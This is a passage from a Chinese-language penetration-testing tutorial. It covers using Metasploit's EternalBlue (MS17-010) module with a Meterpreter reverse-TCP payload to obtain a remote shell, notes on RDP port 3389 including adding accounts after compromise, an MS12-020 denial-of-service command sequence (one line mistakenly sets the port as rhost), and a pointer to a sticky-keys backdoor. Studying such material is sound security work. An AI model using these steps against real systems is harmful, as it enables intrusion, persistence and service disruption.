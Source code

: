 C段扫描，显示加号的则能够利用

![image-20220528050718016](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ad20387dcd440b362211f6fd6bc31600f7d4a05c.png)

### 漏洞攻击

然后我们就可以去利用漏洞攻击了，选择漏洞攻击模块： use exploit/windows/smb/ms17\_010\_eternalblue、

查看漏洞信息

![image-20220528051143909](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-958db6f0e66911022828cb1b4a7d1ed2a2a3273f.png)

查看可攻击的平台

![image-20220528051208461](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-7e7bccabf67a3b36ab64006794ac2822447e4ec4.png)

查看攻击载荷

![image-20220528051227382](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-68c6cbb5ff378c0550cd4b598c88c9abfb260e7e.png)

设置攻击载荷：

```php
set payload windows/x64/meterpreter/reverse_tcp
```

查看模块需要配置的参数： show options

需要我们设置RHOST 与LHOST（攻击机IP）用于接收从目标机弹回来的shell。这样就可以愉快的进行攻击了。成功反弹shell

![image-20220528051358224](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f93dc721b63b7058d251ec28c1508d68635c942f.png)

0x09 RDP (3389)
===============

RDP 远程桌⾯协议(RDP)是⼀个多通道(multi-channel)的协议，让使⽤者(所在计算机称为⽤⼾端或'本 地计算机')连上提供微软终端机服务的计算机(称为服务端或'远程计算机')。

> RDP协议使⽤的默认端⼝为3389，在渗透过程中，拿到服务器权限之后，在⼀些特殊的环境，⽆法通 过命令⾏进⾏管理操作的情况下，可以通过添加账⼾，开启3389连接功能，远程登录⽬标服务器进⾏ 管理

ms12-020 漏洞复现
-------------

在msf中键入如下命令进行ms12-020漏洞攻击

```php
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf auxiliary(ms12_020_maxchannelids) > set rhost 《your ip》
msf auxiliary(ms12_020_maxchannelids) > set rhost 3389
msf auxiliary(ms12_020_maxchannelids) > exploit
```

Shift粘滞键后门：5次shift后门
--------------------

window系统的后门，实现无密码登陆：

[https://baijiahao.baidu.com/s?id=1673617354918306876&amp;wfr=spider&amp;for=pc](https://baijiahao.baidu.com/s?id=1673617354918306876&wfr=spider&for=pc)
